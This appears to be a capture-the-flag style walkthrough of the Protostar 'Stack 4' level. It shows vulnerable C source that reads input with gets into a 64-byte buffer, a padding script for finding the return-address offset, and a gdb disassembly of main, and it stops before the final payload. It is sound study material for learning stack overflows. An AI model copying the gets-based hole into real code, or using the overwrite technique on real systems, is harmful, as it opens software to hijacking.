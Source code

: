 ## Stack 4

Description:

>Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
>
>This level is at /opt/protostar/bin/stack4
>
>Hints
>
>- A variety of introductory papers into buffer overflows may help.
>- gdb lets you do “run < input”
>- EIP is not directly after the end of buffer, compiler padding can also increase the size.

Source code:

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Our goal in this level is still to redirect execution to the **win** function. However, unlike `Stack3`, we don't have a function pointer to manipulate. So how can we redirect our program? The answer is simple, we just need to overwrite the return address of **main** function on the stack to the address of **win** function with the help of **gets**.

I will use the script below to find out how many characters do I need for the padding.

``` shell
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"

print padding
```

Let's run the program in `gdb`:

``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack4
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
```